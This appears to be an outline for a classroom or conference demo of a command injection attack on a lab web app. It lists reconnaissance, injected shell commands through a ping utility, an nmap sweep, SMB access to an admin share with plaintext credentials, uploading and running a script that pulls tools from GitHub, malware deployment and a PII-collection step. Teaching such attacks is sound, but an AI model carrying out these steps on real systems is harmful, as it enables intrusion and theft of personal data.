 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\


Commands:
==========
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub

Drop to Shell
=============

Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine
	

	
